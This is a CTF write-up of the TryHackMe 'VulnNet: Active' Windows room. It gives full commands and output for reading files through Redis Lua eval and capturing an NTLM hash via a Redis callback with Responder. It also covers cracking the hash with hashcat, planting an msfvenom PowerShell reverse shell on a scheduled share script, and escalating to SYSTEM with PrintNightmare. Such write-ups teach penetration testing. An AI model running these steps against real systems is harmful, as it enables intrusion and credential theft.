


# VulnNet: Active
**Date:** May 14th 2022

**Author:** j.info

**Link:** [**VulnNet: Active**](https://tryhackme.com/room/vulnnetactive) CTF on TryHackMe

**TryHackMe Difficulty Rating:** Medium

<br>



<br>

## Objectives
- user.txt
- system.txt

<br>

## Initial Enumeration

### Nmap Scan

`sudo nmap -sV -sC -T4 10.10.196.146`

```
PORT    STATE SERVICE       VERSION
53/tcp  open  domain        Simple DNS Plus
135/tcp open  msrpc         Microsoft Windows RPC
139/tcp open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds?
464/tcp open  kpasswd5?
6379/tcp  open  redis      Redis key-value store 2.8.2402
9389/tcp  open  mc-nmf     .NET Message Framing
49665/tcp open  msrpc      Microsoft Windows RPC
49667/tcp open  msrpc      Microsoft Windows RPC
49669/tcp open  msrpc      Microsoft Windows RPC
49670/tcp open  ncacn_http Microsoft Windows RPC over HTTP 1.0
49677/tcp open  msrpc      Microsoft Windows RPC
49689/tcp open  msrpc      Microsoft Windows RPC
49707/tcp open  msrpc      Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

An additional all ports scan reveals 9 additional ports open (6379 and higher in the list above).

<br>

## Redis Digging

We're able to connect over to the Redis port 6379 and enumerate some information on it and the underlying system:

`redis-cli -h 10.10.196.146 -p 6379`

`info`

```
# Server
redis_version:2.8.2402
os:Windows  
arch_bits:64
```

`config get *`

```
  1) "dbfilename"
  2) "dump.rdb"
  3) "requirepass"
  4) ""
  5) "masterauth"
  6) ""
103) "dir"
104) "C:\\Users\\enterprise-security\\Downloads\\Redis-x64-2.8.2402"
```

We found a username on the system with that 104) entry!

I look to see if the database has any keys stored and it does not:

`select 1`

`keys *`

```
(empty array)
```

Searching around on Redis exploits suggests that there is an LUA exploit in older versions of Redis (including this version) that you can use to break out of the Redis sandbox and execute arbitrary code. This is done using the **eval** command. It won't return entire files, but can you can get it to leak some information.

While still connected run the following. It produces an error message but does return most of the flag value:

`eval "dofile('C:/Users/enterprise-security/Desktop/user.txt')" 0`

```
(error) ERR Error running script (call to f_eebcad8707d6acaa5a1f5511b5d88676a90438d6): @user_script:1: C:/Users/enterprise-security/Desktop/user.txt:1: malformed number near '<REDACTED>'
```

The redacted part is what you'd put inside of your THM{} flag giving us the first objective.

You can read more about the exploit [**at this link**](https://www.agarri.fr/blog/archives/2014/09/11/trying_to_hack_redis_via_http_requests/index.html).

<br>

## Using Responder to Capture a User Hash

One other thing I found that you can do is have it request files from remote "shares", ie a server you control in this case. You can set up **responder** on your system and tell Redis to connect back to you which will capture the **NTLM hash** for the user!

First I start up the responder listener:

`sudo responder -I tun0 -dvw`

```
[+] Listening for events...
```

Then in Redis I issue the following command to tell it to request a file from us:

`eval "dofile('//10.6.127.197/anything')" 0`

After issuing that command we get a connection back to us with the users NTLM hash:

```
[SMB] NTLMv2-SSP Client   : ::ffff:10.10.196.146
[SMB] NTLMv2-SSP Username : VULNNET\enterprise-security
[SMB] NTLMv2-SSP Hash     : enterprise-security::VULNNET:db50bc476ad20b33:D6FFE768334F30508D5C6FE63B92E672:01010000000000008064D2AC8F64D8018BC50EDFF825920E00000000020008004600560033004D0001001E00570049004E002D004100310030004900300038003800330056004F00300004003400570049004E002D004100310030004900300038003800330056004F0030002E004600560033004D002E004C004F00430041004C00030014004600560033004D002E004C004F00430041004C00050014004600560033004D002E004C004F00430041004C00070008008064D2AC8F64D80106000400020000000800300030000000000000000000000000300000E9D6A7F7D2E4BEE9561A522D4D0CB9C08E6104E28934E6AAFD40607DF4C8ECD30A001000000000000000000000000000000000000900220063006900660073002F00310030002E0036002E003100320037002E003100390037000000000000000000
```

<br>

## Cracking the NTLM Hash

Now that we have a hash, let's try and crack it using **hashcat**:

`hashcat -m 5600 -w 3 -D 1,2 hash.txt rockyou.txt`

```
ENTERPRISE-SECURITY::VULNNET:db50bc476ad20b33:d6ffe768334f30508d5c6fe63b92e672:01010000000000008064d2ac8f64d8018bc50edff825920e00000000020008004600560033004d0001001e00570049004e002d004100310030004900300038003800330056004f00300004003400570049004e002d004100310030004900300038003800330056004f0030002e004600560033004d002e004c004f00430041004c00030014004600560033004d002e004c004f00430041004c00050014004600560033004d002e004c004f00430041004c00070008008064d2ac8f64d80106000400020000000800300030000000000000000000000000300000e9d6a7f7d2e4bee9561a522d4d0cb9c08e6104e28934e6aafd40607df4c8ecd30a001000000000000000000000000000000000000900220063006900660073002f00310030002e0036002e003100320037002e003100390037000000000000000000:<REDACTED>
Recovered........: 1/1 (100.00%) Digests
```

<br>

## SMB Digging

Now that we have a valid user and password we can try taking a look around SMB. I use **crackmapexec** to enumerate the shares:

`crackmapexec smb 10.10.196.146 -u "enterprise-security" -p "<REDACTED>" --shares`

```
SMB         10.10.196.146   445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  [+] vulnnet.local\enterprise-security:<REDACTED> 
SMB         10.10.196.146   445    VULNNET-BC3TCK1  [+] Enumerated shares
SMB         10.10.196.146   445    VULNNET-BC3TCK1  Share           Permissions     Remark
SMB         10.10.196.146   445    VULNNET-BC3TCK1  -----           -----------     ------
SMB         10.10.196.146   445    VULNNET-BC3TCK1  ADMIN$                          Remote Admin
SMB         10.10.196.146   445    VULNNET-BC3TCK1  C$                              Default share
SMB         10.10.196.146   445    VULNNET-BC3TCK1  Enterprise-Share READ            
SMB         10.10.196.146   445    VULNNET-BC3TCK1  IPC$            READ            Remote IPC
SMB         10.10.196.146   445    VULNNET-BC3TCK1  NETLOGON        READ            Logon server share 
SMB         10.10.196.146   445    VULNNET-BC3TCK1  SYSVOL          READ            Logon server share 
```

I take a look through these shares and find a powershell script named **PurgeIrrelevantData_1826.ps1** in the **Enterprise-Share** share that looks like it goes out to C:\Users\Public\Documents\ and removes any files there.

Running an **rid-brute** to enumerate a list of users:

`crackmapexec smb 10.10.196.146 -u "enterprise-security" -p "<REDACTED>" --rid-brute`

```
SMB         10.10.196.146   445    VULNNET-BC3TCK1  [*] Windows 10.0 Build 17763 x64 (name:VULNNET-BC3TCK1) (domain:vulnnet.local) (signing:True) (SMBv1:False)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  [+] vulnnet.local\enterprise-security:<REDACTED> 
SMB         10.10.196.146   445    VULNNET-BC3TCK1  [+] Brute forcing RIDs
SMB         10.10.196.146   445    VULNNET-BC3TCK1  500: VULNNET\Administrator (SidTypeUser)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  501: VULNNET\Guest (SidTypeUser)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  502: VULNNET\krbtgt (SidTypeUser)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  1000: VULNNET\VULNNET-BC3TCK1$ (SidTypeUser)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  1103: VULNNET\enterprise-security (SidTypeUser)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  1104: VULNNET\jack-goldenhand (SidTypeUser)
SMB         10.10.196.146   445    VULNNET-BC3TCK1  1105: VULNNET\tony-skid (SidTypeUser)

```

<br>

## RPC Digging

I check to see if **print nightmare** is a possibility on the server, and it is, so once we establish a foothold we can likely use this to escalate our privileges:

`impacket-rpcdump 10.10.196.146 | egrep 'MS-RPRN|MS-PAR'`

```
Protocol: [MS-RPRN]: Print System Remote Protocol 
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

<br>

## System Access

The powershell script we saw earlier looks like it would likely be run by the task scheduler every so often, so let's see if we can overwrite that script with one of our own.

I use **msfvenom** to create a reverse shell with powershell:

`msfvenom -p windows/x64/powershell_reverse_tcp LHOST=10.6.127.197 LPORT=4444 -f psh -o PurgeIrrelevantData_1826.ps1`

```
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 1897 bytes
Final size of psh file: 10199 bytes
Saved as: PurgeIrrelevantData_1826.ps1
```

I then connect over to the SMB share and upload it:

`put PurgeIrrelevantData_1826.ps1`

```
putting file PurgeIrrelevantData_1826.ps1 as \PurgeIrrelevantData_1826.ps1 (43.5 kb/s) (average 43.5 kb/s)
```

I set up a listener using **multi/handler** from within metasploit:

`use multi/handler`

`set payload payload/windows/x64/powershell_reverse_tcp`

`set LHOST 10.6.127.197`

`exploit`

And we get a shell back in less than a minute:

```
[*] Started reverse TCP handler on 10.6.127.197:4444
[*] Powershell session session 1 opened (10.6.127.197:4444 -> 10.10.196.146:49944 ) at 2022-05-14 10:24:35 -0400

Windows PowerShell running as user enterprise-security on VULNNET-BC3TCK1
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\enterprise-security\Downloads>
```

<br>

## System Enumeration

Looking at the files in the directory we land in shows us a file called **startup.bat** which has the following inside of it:

```
:home 
TIMEOUT /T 30 /NOBREAK 

powershell.exe -File C:\Enterprise-Share\PurgeIrrelevantData_1826.ps1

TIMEOUT /T 30

cls 
Goto :home
```

That explains how the powershell script we exploited gets run, and where any files we upload via SMB get stored.

<br>

## Privilege Escalation

We saw earlier that this system was vulnerable to **PrintNightmare** so let's make use of that. I'll use [**this powershell version of it**](https://github.com/calebstewart/CVE-2021-1675).

After downloading the exploit I upload it to the SMB share under the name **PrintNightmare.ps1**:

```
putting file PrintNightmare.ps1 as \PrintNightmare.ps1 (169.6 kb/s) (average 137.8 kb/s)
```

Checking `net users` shows us the following users on the system:

```
User accounts for \\VULNNET-BC3TCK1

-------------------------------------------------------------------------------
Administrator            enterprise-security      Guest
jack-goldenhand          krbtgt                   tony-skid
```

I change over to the **C:\Enterprise-Share** directory and run:

`Import-Module .\PrintNightmare.ps1`

`Invoke-Nightmare`

Checking `net users` again:

```
User accounts for \\VULNNET-BC3TCK1

-------------------------------------------------------------------------------
adm1n                    Administrator            enterprise-security      
Guest                    jack-goldenhand          krbtgt                   
tony-skid
```

Our new user **adm1n** has been created. And checking `net localgroup administrators` shows us it's a member of the administrators group:

```
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members

-------------------------------------------------------------------------------
adm1n
Administrator
Domain Admins
Enterprise Admins
```

Now let's login to the newly created user which will have a default password of **P@ssw0rd** according to the GitHub repository we downloaded the script from. I'll use **impacket-psexec** for this:

`impacket-psexec adm1n@10.10.196.146`

```
Impacket v0.9.25.dev1+20220119.101925.12de27dc - Copyright 2021 SecureAuth Corporation

Password:
[*] Requesting shares on 10.10.196.146.....
[*] Found writable share ADMIN$
[*] Uploading file IprZFyyS.exe
[*] Opening SVCManager on 10.10.196.146.....
[*] Creating service SEsl on 10.10.196.146.....
[*] Starting service SEsl.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.1757]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
```

And we're in as admin! Let's go get our final flag on the desktop of administrator:

`cd \users\administrator\desktop`

`dir`

```
02/23/2021  09:27 PM                37 system.txt
```

`type system.txt`

```
THM{<REDACTED>}
```

<br>

With that we've completed this CTF!



<br>

## Conclusion

A quick run down of what we covered in this CTF:

- Basic enumeration with **nmap** and **gobuster**
- Exploited an exposed **Redis** instance that didn't require authentication and allowed us to display files / run commands on the system
- Captured an incoming NTLM hash using **responder**
- Cracked that hash with **hashcat**
- SMB enumeration using **crackmapexec** and **smbclient**
- Used **impacket-rpcdump** to find out that the server was vulnerable to **PrintNightmare** aka **CVE-2021-1675**
- Used **msfvenom** to create a reverse powershell shell
- Replaced a **powershell script** on an SMB share with the one we created to get a reverse shell
- Exploited the **PrintNightmare** vulnerability to create a new user on the system that was a member of the administrators group
- Used **impacket-psexec** to login as the newly created user

<br>

Many thanks to:
- [**SkyWaves**](https://tryhackme.com/p/SkyWaves) for creating this CTF
- **TryHackMe** for hosting this CTF

<br>

You can visit them at: [**https://tryhackme.com**](https://tryhackme.com)